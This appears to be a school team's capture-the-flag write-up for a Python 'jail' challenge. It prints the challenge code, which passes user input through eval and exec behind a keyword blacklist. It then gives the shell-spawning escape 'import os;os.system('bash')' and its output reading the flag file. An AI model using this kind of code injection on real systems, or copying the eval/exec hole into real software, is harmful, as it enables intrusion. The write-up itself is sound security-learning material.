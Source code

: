 Pretty sure this is the first time our school has ever been invited to a CTF event, and I think we did really well for our debut 😁.
Huge thanks to REHACK and BlackBerry CCoE for the invite, and also to our school for supporting us throughout the event!
Thank you for giving us the opportunity to compete with all the other talented hackers in Malaysia.

## Challenges that we solved during the event

### Eevee Jail - 1 (Jail)

> Find a way out from this jail! Flag is at flag.txt
> 
> Author n3r

jail-1.py
```python
#!/usr/local/bin/python
from shell import shell

blacklist = ["flag", "locals", "vars", "\\", "{", "}"]

banner = '''
========================
=    Eevee's Jail 1    =
========================
'''

print(banner)

for _ in [shell]:
    while True:
        try:
            huh = ascii(input("[+] > "))
            if any(no in huh for no in blacklist):
                raise ValueError("[!] Mission Failed. Try again.")
            exec(eval(huh))
        except Exception as err:
            print(f"{err}")
```

The user's input is getting eval'ed then exec'ed, so you can just spawn a bash shell to break the jail.

```
[+] > import os;os.system('bash')
ls
flag.txt
jail-1.py
shell.py
cat flag.txt
bbctf{is_th3r3_another_w4y_70_solv3_this?}
```
